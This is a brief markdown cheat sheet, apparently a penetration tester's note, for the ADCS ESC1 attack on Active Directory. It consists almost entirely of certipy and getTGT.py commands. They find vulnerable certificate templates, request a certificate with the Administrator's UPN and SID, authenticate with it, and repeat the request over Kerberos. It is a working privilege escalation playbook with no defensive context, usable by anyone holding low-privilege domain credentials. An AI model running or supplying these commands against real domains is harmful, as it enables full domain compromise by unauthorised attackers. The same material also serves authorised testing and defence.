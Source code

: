 # ADCS ESC1

%adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_HOST> -vulnerable -stdout
```

## 2. Request a cert that impersonates Administrator
```
certipy req -u <username> -p '<password>' -target <CA_HOST> -ca <CA_NAME> \
            -dc-ip <DC_IP> \
            -dc-host <DC_HOST> \
            -template <ESC1_TEMPLATE> \
            -upn 'administrator@<DOMAIN>' -sid <ADMIN_SID>
```

## 3. Log on with the minted cert
```
certipy auth -pfx administrator.pfx -dc-ip <DC_IP>
```

## 4. If password of hash fails:
```
getTGT.py <domain>/<username>:'<password>' -dc-ip <DC_IP>
```
## 5. Using Kerberos for certificate request.
```
certipy req -u <username> -k -target <CA_HOST> -ca <CA_NAME> \
            -dc-ip <DC_IP> \
            -dc-host <DC_HOST> \
            -template <ESC1_TEMPLATE> \
            -upn 'administrator@<DOMAIN>' -sid <ADMIN_SID>
```
